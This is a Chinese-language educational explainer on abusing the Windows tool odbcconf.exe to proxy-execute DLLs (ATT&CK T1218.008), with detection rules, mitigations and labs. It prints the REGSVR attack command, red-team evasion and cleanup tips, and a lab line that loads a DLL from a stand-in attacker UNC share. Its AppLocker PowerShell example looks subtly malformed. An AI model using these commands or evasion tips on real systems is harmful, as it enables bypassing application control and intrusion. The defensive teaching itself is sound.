


# ODBC配置工具 (T1218.008)

## 一句话通俗理解

> **攻击者把恶意 DLL 交给 odbcconf.exe 这个"数据库驱动配置器"注册执行——好比把违禁品贴上"数据库组件"标签，让海关替你通关。**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | ODBC配置工具（T1218.008），系统二进制代理执行（T1218）的子技术 |
| 为什么危险？ | odbcconf.exe 是微软签名二进制，可通过 REGSVR 标志执行任意 DLL，绕过未考虑其滥用的应用控制 |
| 谁需要关心？ | 系统管理员、安全运维团队、SOC分析师、应用控制策略管理员 |
| 你的第一步防御 | 应用控制阻止 odbcconf.exe 执行（除非环境中确实需要配置 ODBC） |
| 如果只做一件事 | 在 Sysmon 中监控 odbcconf.exe 进程创建及其命令行参数（REGSVR /A）与子进程链 |

## 难度等级

⭐⭐ 中级 - 需要一定的技术基础和经验

## 前置知识检查

**读这个文件需要什么？**

- [ ] 操作系统权限模型基础
- [ ] 系统二进制代理执行（T1218）的原理
- [ ] Windows DLL 加载机制
- [ ] ODBC（开放数据库连接）基础知识

## 技术描述

**ODBC配置工具**（T1218.008）是 **系统二进制代理执行**（T1218）的一个具体变体，属于 **隐蔽** 阶段的攻击技术。

攻击者可能滥用 odbcconf.exe 来代理执行恶意载荷。odbcconf.exe 是 Windows 实用程序，用于配置 ODBC 驱动程序和数据源名称（DSN），由微软数字签名。

攻击者可滥用 odbcconf.exe 绕过未考虑其潜在滥用的应用控制策略。类似 Regsvr32，odbcconf.exe 有 REGSVR 标志可执行 DLL：

```
odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}
```

其中 `/S` 表示静默模式，`/A` 指定要执行的操作（这里是 REGSVR，即注册 DLL）。该命令会让 odbcconf.exe 调用 `LoadLibrary` 加载指定 DLL，触发 DllMain 执行任意代码。

### 具体怎么理解？

把 odbcconf.exe 想象成一个**持官方通行证的快递员**：

1. **官方身份**：odbcconf.exe 是 `C:\Windows\System32` 下的微软签名二进制，应用控制策略默认信任
2. **隐藏能力**：虽然名义上是"配置 ODBC 驱动"，但通过 REGSVR 标志可以加载任意 DLL——本质上是把 DLL 注册能力隐藏在配置工具中
3. **执行入口**：DLL 被加载时触发 DllMain（DLL_PROCESS_ATTACH），恶意代码在此执行，无需 DLL 真正导出 ODBC 相关函数
4. **静默模式**：`/S` 标志使 odbcconf.exe 不显示任何用户界面，攻击完全无感

### 为什么有效？

- **签名信任**：odbcconf.exe 是微软签名二进制，AppLocker 默认规则允许执行
- **应用控制盲区**：许多组织未将 odbcconf.exe 纳入应用控制黑名单，因为它不是常见的 LOLBin
- **REGSVR 灵活性**：REGSVR 操作可指定任意 DLL 路径，包括用户可写目录与远程（UNC）路径
- **静默执行**：`/S` 标志避免用户界面，攻击完全静默
- **扩展名盲区**：被加载的 DLL 可改名为 .dll 以外的扩展名（部分场景）

## 真型场景

攻击者在 **隐蔽** 阶段使用 ODBC配置工具技术，以下是典型的攻击步骤：



**步骤详解：**

1. **投递**：通过钓鱼邮件、多阶段恶意软件投递武器化 DLL，常伪装成"数据库驱动""ODBC 组件"。
2. **触发**：攻击者通过命令行执行 `odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}`，或通过已植入的恶意软件二阶段调用。
3. **加载**：odbcconf.exe 解析 `/A {REGSVR ...}` 操作，调用 `LoadLibrary` 加载指定 DLL。
4. **执行**：DLL 加载时触发 DllMain（DLL_PROCESS_ATTACH），恶意代码在此执行。
5. **持久化**：恶意代码写入 Run 键、计划任务或 WMI 订阅实现持久化；建立 C2 通道。

## 攻击流程

```
投递 DLL → odbcconf.exe /S /A {REGSVR} → LoadLibrary 加载 → DllMain 执行 → C2 持久化
```



**步骤详解：**

1. **投递**
   - 通俗描述：攻击者把"毒药"伪装成数据库组件寄给受害者
   - 技术细节：邮件附件 DLL 文件，文件名伪装成业务相关（如"dbdriver.dll"）；或通过已植入的恶意软件二阶段下载到 `C:\Users\Public\` 等用户可写目录
   - 常用工具：自研 DLL 编译工具、Visual Studio

2. **触发执行**
   - 通俗描述：攻击者远程命令执行 odbcconf 加载 DLL
   - 技术细节：`odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}`；`/S` 静默模式，`/A` 指定操作，`REGSVR` 表示注册 DLL
   - 常用工具：odbcconf.exe（系统自带）、cmd.exe、PowerShell

3. **DLL 加载与执行**
   - 通俗描述：odbcconf 把 DLL 当作驱动加载，DllMain 自动运行
   - 技术细节：odbcconf.exe 通过 `LoadLibraryW` 加载 DLL；DllMain 在 DLL_PROCESS_ATTACH 时执行；可选调用 `DllRegisterServer` 导出函数
   - 常用工具：恶意 DLL 编译器（MSVC、MinGW）

4. **持久化与 C2**
   - 通俗描述：恶意代码驻留并连接攻击者服务器
   - 技术细节：写入 `HKCU\...\Run` 键持久化；通过 HTTP/HTTPS/DNS 隧道建立 C2 通道
   - 常用工具：Cobalt Strike、Sliver、自研 C2 框架

## 真实案例

### 案例1：Bumblebee 用 odbcconf.exe 运行 DLL

- **时间**: 2022-2023年
- **目标**: 全球企业（初始访问载荷）
- **攻击组织**: Bumblebee（S1039，恶意软件即服务）
- **手法**: Bumblebee 使用 odbcconf.exe 运行 DLL——通过钓鱼邮件投递携带恶意 DLL 的文档（PDF/ISO），文档触发后调用 `odbcconf.exe /S /A {REGSVR ...}` 加载 Bumblebee DLL 载荷，绕过应用控制
- **影响**: 作为多个勒索软件家族（Conti、Quantum、Royal）的初始访问跳板
- **参考链接**: [Cybereason - Bumblebee 报告](https://www.cybereason.com/blog/research/bumblebee-loader-the-new-conti)

### 案例2：Cobalt Group 用 odbcconf 代理执行恶意 DLL

- **时间**: 2017-2018年
- **目标**: 金融机构（银行）
- **攻击组织**: Cobalt Group（G0080）
- **手法**: Cobalt Group 使用 odbcconf.exe 代理执行恶意 DLL，绕过 AppLocker 应用控制策略——odbcconf.exe 作为 LOLBin 加载 Cobalt Strike beacon DLL
- **影响**: 银行内部网络渗透，ATM 攻击
- **参考链接**: [TrendMicro - 俄罗斯定向攻击报告](https://www.trendmicro.com/cloud-content/us/pdfs/security-intelligence/white-papers/wp-russia-targeted-attacks.pdf)

### 案例3：Raspberry Robin 用 odbcconf.exe 的 regsvr 标志执行 DLL

- **时间**: 2022-2023年
- **目标**: 全球企业（电信、能源、制造）
- **攻击组织**: Raspberry Robin（S1130，蠕虫）
- **手法**: Raspberry Robin 使用 odbcconf.exe 的 regsvr 标志执行 DLL 绕过应用控制——通过 USB 驱动器传播，利用 odbcconf.exe 加载恶意 DLL 实现 C2 通信与横向移动
- **影响**: 作为多个勒索软件家族（Cl0p、AvosLocker）的初始访问跳板；与俄罗斯 UNC1878 组织关联
- **参考链接**: [RedCanary - Raspberry Robin](https://redcanary.com/blog/raspberry-robin/)

### 案例4：安全研究中的实践

- **时间**: 2025年
- **目标**: 安全研究测试环境
- **攻击组织**: 红队/安全研究人员
- **手法**: 在授权测试中模拟 ODBC配置工具 攻击，使用 odbcconf.exe REGSVR 标志加载自定义 DLL 绕过 EDR
- **影响**: 验证防御体系的检测和响应能力
- **参考链接**: [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **深入理解原理**：掌握 odbcconf.exe 命令行参数（`/S` 静默、`/A` 操作、`REGSVR` 注册 DLL、`/F` 响应文件）、`LoadLibrary` 加载机制、DllMain 执行时机
2. **环境适配**：先侦察目标的应用控制策略——odbcconf.exe 通常不在 AppLocker 默认黑名单中；检查 DLL 文件类型是否在邮件网关黑名单（可改名 .ocx 绕过）
3. **组合使用**：与用户执行（T1204）组合触发；与持久化（T1547.001 Run 键）组合，DllMain 中写入注册表；与进程注入（T1055）链式使用，DllMain 中注入合法进程
4. **隐蔽性考虑**：DLL 文件名伪装成系统组件（如 `sqloledb.dll`、`msado15.dll`）；放置在用户可写目录避免触发 UAC；`/S` 静默模式避免用户界面；执行后删除 DLL 文件（无文件恶意软件）

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| odbcconf.exe | 系统自带 ODBC 配置工具 | Windows | 系统自带 |
| Visual Studio | 编译恶意 DLL | Windows | https://visualstudio.microsoft.com/ |
| MinGW | 跨平台 DLL 编译 | Windows/Linux | http://www.mingw.org/ |
| Atomic Red Team T1218.008 | 检测规则测试用例 | Windows | [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.008/T1218.008.md) |
| LOLBAS odbcconf.exe | 二进制滥用参考 | Windows | [LOLBAS - odbcconf.exe](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/) |

### 注意事项

- 在授权的测试环境中使用这些技术
- 注意操作安全（OPSEC），避免被检测系统发现：执行后清理 DLL 文件与 odbcconf.exe 命令行历史
- 使用匿名化技术和代理隐藏真实身份
- DllMain 中避免执行复杂逻辑（加载器锁限制），主逻辑通过新线程延迟执行

## 蓝队视角

### 检测要点

1. **系统日志监控**：Sysmon Event ID 1（进程创建）监控 odbcconf.exe 启动，特别是带 REGSVR 参数的命令行
2. **异常行为检测**：odbcconf.exe 子进程异常（powershell/cmd/mshta）；从非标准目录加载 DLL；odbcconf.exe 加载非标准或未签名模块；odbcconf.exe 发起网络外联
3. **工具特征识别**：监控 odbcconf.exe 命令行中的 `REGSVR`、`/A`、`/S` 关键字组合；EDR 监控 odbcconf.exe 的 `LoadLibrary` 调用目标

### 监控建议

- 部署端点检测和响应（EDR）系统，配置 odbcconf.exe 进程创建与命令行参数监控规则
- 配置SIEM规则，关联分析来自多个来源的告警（DLL 文件落地 + odbcconf.exe 加载 + 子进程网络外联）
- 定期进行安全评估和渗透测试，验证 odbcconf 投递链的检测覆盖
- 在邮件网关阻断 .dll 附件（默认应阻断）

## 避坑指南

- **不要只盯 odbcconf.exe 本身**：合法用户偶尔会用 odbcconf.exe 配置 ODBC 数据源，需结合命令行参数与子进程综合判断
- **不要忽视响应文件路径**：odbcconf.exe 还支持 `/F response_file.rsp` 从响应文件读取命令，绕过对命令行参数的监控
- **不要漏掉非标准 DLL 扩展名**：被加载的 DLL 可能改名为 .ocx、.drv 等扩展名，需监控 odbcconf.exe 的所有模块加载
- **不要假设应用控制覆盖**：许多组织的 AppLocker 策略未纳入 odbcconf.exe，需显式添加规则

## 检测建议

### 检测思路

检测 ODBC配置工具 的关键是识别 odbcconf.exe 用 REGSVR 命令标志执行恶意 DLL。行为链：(1) odbcconf.exe 进程创建带 /REGSVR 或 /A {REGSVR ...} 参数 → (2) odbcconf.exe 加载非标准或未签名模块 → (3) 可选后续进程创建或网络活动。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控 odbcconf.exe 进程发起的出站连接，特别是连接到非企业域名或新注册域名。

```bash
# 检测 odbcconf.exe 异常网络外联
# Sysmon Event ID 3 (网络连接) 过滤 odbcconf.exe 源
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
  Where-Object {$_.Message -match 'odbcconf\.exe'} |
  Select-Object TimeCreated, Message
```

### 主机层检测

**Windows事件ID**：
- Sysmon Event ID 1：进程创建（监控 odbcconf.exe 启动及子进程）
- Sysmon Event ID 7：镜像加载（监控 odbcconf.exe 加载非系统 DLL）
- Sysmon Event ID 11：文件创建（监控 DLL 文件落地）
- 事件ID 4688：进程创建（监控可疑进程）

```bash
# 检测 odbcconf.exe 执行及可疑子进程
# Sysmon 配置：
# <RuleGroup name="ODBCCONF Execution" groupRelation="or">
#   <ProcessCreate onmatch="include">
#     <Image condition="is">C:\Windows\System32\odbcconf.exe</Image>
#   </ProcessCreate>
#   <ProcessCreate onmatch="include">
#     <ParentImage condition="is">C:\Windows\System32\odbcconf.exe</ParentImage>
#   </ProcessCreate>
#   <ImageLoad onmatch="include">
#     <ImageLoaded condition="contains">C:\Users\</ImageLoaded>
#     <Image condition="is">C:\Windows\System32\odbcconf.exe</Image>
#   </ImageLoad>
# </RuleGroup>

# 查询 odbcconf.exe 进程及命令行
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
  Where-Object {$_.Message -match 'odbcconf\.exe'} |
  Select-Object TimeCreated, @{n='CommandLine';e={$_.Properties[8].Value}}

# 查询 odbcconf.exe 子进程
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
  Where-Object {$_.Message -match 'ParentImage.*odbcconf\.exe'} |
  Select-Object TimeCreated, @{n='ChildProcess';e={$_.Properties[5].Value}}
```

**用人话说：** odbcconf.exe 是 ODBC 数据源配置工具，正常情况下普通用户几乎不会主动运行它——一旦看到 odbcconf.exe 启动，特别是带 `/S /A {REGSVR ...}` 参数和指向用户目录的 DLL 路径，几乎可以确定是攻击；而 odbcconf.exe 加载非系统目录的 DLL 模块，则几乎可以确定是滥用。

```yaml
title: 检测 odbcconf.exe 异常执行与可疑子进程
status: experimental
description: 检测 odbcconf.exe 用 REGSVR 命令标志执行恶意 DLL（ODBC配置工具 T1218.008）
references:
    - https://attack.mitre.org/techniques/T1218/008/
    - https://attack.mitre.org/detectionstrategies/DET0486/
logsource:
    category: process_creation
    product: windows
detection:
    selection_odbcconf_regsvr:
        Image|endswith: '\odbcconf.exe'
        CommandLine|contains:
            - 'REGSVR'
            - '/A'
            - '/S'
    selection_odbcconf_nonstd:
        Image|endswith: '\odbcconf.exe'
        CommandLine|contains:
            - 'C:\Users\'
            - 'C:\Temp\'
            - 'C:\ProgramData\'
            - '\AppData\Local\Temp\'
            - '\Downloads\'
    selection_odbcconf_child:
        ParentImage|endswith: '\odbcconf.exe'
        Image|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\cmd.exe'
            - '\mshta.exe'
            - '\wscript.exe'
            - '\cscript.exe'
            - '\rundll32.exe'
    condition: selection_odbcconf_regsvr or selection_odbcconf_nonstd or selection_odbcconf_child
fields:
    - CommandLine
    - ParentCommandLine
    - Image
    - User
falsepositives:
    - 合法 ODBC 数据源配置（罕见，需白名单）
level: high
tags:
    - attack.t1218.008
    - attack.t1218
    - attack.ta0005
    - attack.stealth
```

### 应用层检测

**Sigma规则示例**（基于 ATT&CK DET0486 / AN1335）：

```yaml
title: DET0486 - 可疑 ODBCCONF REGSVR 执行
id: 0b8c5a8d-7c4e-4f1a-9c4e-7b3a3f5c8e4d
status: stable
description: |
    识别 odbcconf.exe 用 REGSVR 命令标志执行恶意 DLL。行为链：
    (1) odbcconf.exe 进程创建带 /REGSVR 或 /A {REGSVR ...} 参数
    → (2) odbcconf.exe 加载非标准或未签名模块
    → (3) 可选后续进程创建或网络活动。对应 ATT&CK DET0486 / AN1335。
references:
    - https://attack.mitre.org/detectionstrategies/DET0486/
logsource:
    product: windows
    category: process_creation
detection:
    selection_odbcconf_regsvr:
        Image|endswith: '\odbcconf.exe'
        CommandLine|contains:
            - 'REGSVR'
    selection_odbcconf_silent:
        Image|endswith: '\odbcconf.exe'
        CommandLine|contains:
            - '/S'
            - '-S'
    selection_odbcconf_action:
        Image|endswith: '\odbcconf.exe'
        CommandLine|contains:
            - '/A'
            - '-A'
    condition: selection_odbcconf_regsvr or (selection_odbcconf_silent and selection_odbcconf_action)
fields:
    - CommandLine
    - ParentCommandLine
    - Image
    - User
falsepositives:
    - 合法 ODBC 数据源配置（需白名单特定路径）
level: high
tags:
    - attack.t1218.008
    - attack.t1218
    - attack.ta0005
```

## 缓解措施

### 优先级1：关键措施

**M1042 禁用/移除功能（禁用 odbcconf.exe）**：在不需要配置 ODBC 数据源的环境中（绝大多数企业终端），通过 AppLocker / WDAC / SRP 阻止 odbcconf.exe 执行。

```bash
# AppLocker 规则示例（默认拒绝 odbcconf.exe）
# 通过 GPO 部署：
# Path condition: %WINDIR%\System32\odbcconf.exe → Deny
New-AppLockerPolicy -Xml -PolicyType Deny -Path "%WINDIR%\System32\odbcconf.exe" -User "Everyone"
```

**M1038 执行预防（应用控制阻止 odbcconf.exe）**：通过 WDAC / AppLocker / SRP 限制 odbcconf.exe 执行。

### 优先级2：重要措施

**加强监控**：部署EDR和SIEM系统，针对 odbcconf.exe 进程创建、命令行参数、子进程链、模块加载建立关联告警规则（见上文 Sigma 规则）。

### 优先级3：建议措施

**安全意识培训**：教育员工识别可疑的 .dll 文件附件，不要轻易打开来自不受信来源的"数据库驱动""ODBC 组件"。

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解基本原理（初级）

**目标**：理解 ODBC配置工具 的工作原理

**步骤**：
1. 在隔离环境中搭建 Windows 测试虚拟机（关闭 Defender 或加入排除项）
2. 用 Visual Studio 编译一个最小 DLL，DllMain 中弹 MessageBox
3. 执行 `odbcconf.exe /S /A {REGSVR "C:\Users\Public\test.dll"}`，观察是否触发 MessageBox
4. 用 Process Explorer 观察 odbcconf.exe 加载 test.dll 的进程树与模块

**学习要点**：理解 odbcconf.exe 命令行参数、REGSVR 操作、LoadLibrary 加载机制、DllMain 执行时机

### 实验2：实际操作（中级）

**目标**：掌握 ODBC配置工具 的实际使用方法

**步骤**：
1. 编译一个 DLL，DllMain 中调用 `WinExec("calc.exe", 0)`
2. 执行 `odbcconf.exe /S /A {REGSVR "C:\Users\Public\malicious.dll"}`
3. 配置 Sysmon 监控，分析 odbcconf.exe → calc.exe 进程链的日志特征
4. 测试响应文件路径：`odbcconf.exe /S /F response.rsp`，response.rsp 内容为 `{REGSVR "C:\Users\Public\malicious.dll"}`
5. 测试 UNC 路径加载：`odbcconf.exe /S /A {REGSVR "\\attacker\share\evil.dll"}`

**学习要点**：掌握 REGSVR 触发链、响应文件绕过、UNC 路径加载、Sysmon 日志特征

### 实验3：防御验证（高级）

**目标**：验证检测规则的有效性

**步骤**：
1. 部署本文 Sigma 规则到 SIEM（如 Splunk、Microsoft Sentinel）
2. 配置 AppLocker 阻止 odbcconf.exe 执行
3. 执行 Atomic Red Team T1218.008 测试用例
4. 验证检测告警是否触发，AppLocker 是否阻断
5. 测试绕过：尝试通过响应文件路径或非标准 DLL 扩展名绕过监控
6. 改进检测规则覆盖绕过路径

**学习要点**：理解攻防对抗的实际效果，掌握检测规则迭代优化

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE公司维护的攻击技术知识库 |
| **ODBC配置工具** | T1218.008，利用 odbcconf.exe 加载恶意 DLL 执行任意代码 |
| **odbcconf.exe** | Windows ODBC 数据源配置工具，系统自带二进制 |
| **REGSVR** | odbcconf.exe 的操作标志，用于注册（加载）DLL |
| **DSN** | Data Source Name，数据源名称，ODBC 配置项 |
| **DllMain** | DLL 入口函数，加载时自动执行（DLL_PROCESS_ATTACH） |
| **LoadLibrary** | Windows API，加载 DLL 到进程地址空间 |
| **系统二进制代理执行** | T1218，本子技术所属的父技术类别 |
| **隐蔽** | 攻击链中的一个阶段（TA0005） |
| **C2** | 命令与控制 |
| **EDR** | 端点检测与响应 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1218 - 系统二进制代理执行](../T1218-System-Binary-Proxy-Execution.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Odbcconf (T1218.008)](https://attack.mitre.org/techniques/T1218/008/)
- [MITRE ATT&CK - System Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
- [MITRE ATT&CK - DET0486 检测策略](https://attack.mitre.org/detectionstrategies/DET0486/)
- [Microsoft - ODBCCONF.EXE 文档](https://docs.microsoft.com/sql/odbc/odbcconf-exe)

### 📰 安全报告（真实攻击）

- [Cybereason - Bumblebee Loader 报告](https://www.cybereason.com/blog/research/bumblebee-loader-the-new-conti)
- [TrendMicro - 俄罗斯定向攻击报告](https://www.trendmicro.com/cloud-content/us/pdfs/security-intelligence/white-papers/wp-russia-targeted-attacks.pdf)
- [RedCanary - Raspberry Robin](https://redcanary.com/blog/raspberry-robin/)
- [MITRE ATT&CK - Bumblebee (S1039)](https://attack.mitre.org/software/S1039/)
- [MITRE ATT&CK - Raspberry Robin (S1130)](https://attack.mitre.org/software/S1130/)

### 🔧 工具与资源（动手试试）

- [Atomic Red Team - T1218.008 测试用例](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.008/T1218.008.md) - 检测规则测试框架
- [LOLBAS - odbcconf.exe](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/) - LOLBins 参考
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具
